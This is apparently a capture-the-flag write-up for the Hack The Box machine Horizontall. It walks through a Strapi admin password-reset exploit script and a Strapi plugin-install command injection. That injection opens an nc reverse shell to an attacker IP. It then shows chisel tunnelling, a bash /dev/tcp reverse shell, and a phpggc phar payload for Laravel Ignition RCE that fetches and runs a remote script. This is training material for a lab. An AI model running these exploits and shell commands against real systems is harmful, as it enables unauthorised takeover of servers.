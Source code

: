 ![HORIZONTALL](banner.png)

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

There is a webpage running on port 80. At first nothing interesting there but enumerating the files for a while we found something in `http://horizontall.htb/js/app.c68eb462.js`:
```js
getReviews:function(){var t=this;r.a.get("http://api-prod.horizontall.htb/reviews")
```

So there is a subdomain called `api-prod.horizontall.htb`.

Enumerating and using Dirbuster got us to a admin login page: `http://api-prod.horizontall.htb/admin/auth/login`

![strapi_login](strapi_login.png)

Let's get a closer look here. A quick web search showed us a [vulnerability](https://vuldb.com/de/?id.145231) for strapi.
We want to use the script `auth.py` mentioned [here](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/):
```python
import requests
import sys
import json
 
args=sys.argv
 
if len(args) < 4:
    print("Usage: {} <admin_email> <url> <new_password>".format(args[0]))
    exit(-1)
 
email = args[1]
url = args[2]
new_password =  args[3]
 
s  =  requests.Session()


#version = json.loads(s.get("{}/admin/strapiVersion".format(url)).text)
 
#print("[*] Detected version(GET /admin/strapiVersion): {}".format(version["strapiVersion"]))
 
#Request password reset
print("[*] Sending password reset request...")
reset_request={"email":email, "url":"{}/admin/auth/reset-password".format(url)}
s.post("{}/".format(url), json=reset_request)
 
#Reset password to
print("[*] Setting new password...")
exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}
r=s.post("{}/admin/auth/reset-password".format(url), json=exploit)
 
print("[*] Response:")
print(str(r.content))
```
As you see we changed it a little bit. We need the right path to `/admin/auth/reset-password` and get rid of this version stuff as we don't need it.
The path `/admin/auth/reset-password` is guessed as the `forget-password` is also in there.
But we still need a valid admin-email. Using the `Forgot your password?`-functionality you can try random addresses. If the system doesn't know the email, it is going to tell you by `This email does not exist.` 
So we just tried some addresses and got lucky with one of our first attempts `admin@horizontall.htb` - there is no message shown at all.

So let's fire up the python code mentioned above like:
```bash
┌──(kali㉿kali)-[~/Desktop/horizontall]
└─$ python3 auth.py admin@horizontall.htb http://api-prod.horizontall.htb test1234
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMTk1NDI1LCJleHAiOjE2MzI3ODc0MjV9.nkDpFc-zpOhw82pyLh5ZXnBjURuVOUYHSLQhcPji_yI","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```
The tool tells us it has set a new password and even gives us the jwt.

Now you can login with `admin:test1234`:

![strapi_admin.png](strapi_admin.png)

## User

Strapi tells us it's running on version `Strapi v3.0.0-beta.17.4` (bottom-left corner).
We searched for exploits here and found [that one](https://bittherapy.net/post/strapi-framework-remote-code-execution/).

Rewriting the `curl`-command to our scenario leads us to this one:
```bash
curl --location --request POST 'http://api-prod.horizontall.htb/admin/plugins/install' \
--header 'Content-Type: application/json' \
--header 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMTk1NDI1LCJleHAiOjE2MzI3ODc0MjV9.nkDpFc-zpOhw82pyLh5ZXnBjURuVOUYHSLQhcPji_yI' \
--data-raw '{"plugin":"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.247 4444 >/tmp/f)","port":"80"}'
```

So let's set up a listener, fire it up and catch the shell. Don't forget to paste your own jwt as authorization-header though.
Your are logged in as `strapi` whats enough to get the `/home/developer/user.txt` on that machine.


## Root

Enumerating for a while we found another webpage running on port 8000:
```bash
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                               
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                       
```

As we don't have access to that port with our attacker machine we used [chisel](https://github.com/jpillora/chisel).
After getting `chisel` on the target machine (e.g. `wget`) you can set it up with:

-	`chisel server -p 8000 --reverse` on attacker machine
-	`./chisel client 10.10.14.247:8000 R:80:127.0.0.1:8000` on target machine

Now you can see there is running `Laravel v8`:

![laravel.png](laravel.png)

A quick web search leaded us [here](https://github.com/ambionics/laravel-exploits).
To set this up we first need to get [phpgcc](https://github.com/ambionics/phpggc) too.

Set up a `rev.sh` like this and provide it:
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.247/4242 0>&1
```

To create the payload you need to generate the `.phar` like this:
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system 'wget http://10.10.14.247:1234/rev.sh && chmod +x rev.sh && /bin/bash rev.sh'
```

Just set up a listener and hit:
```bash
python3 laravel-ignition-rce.py http://127.0.0.1/ /tmp/exploit.phar
```
to catch the root shell.






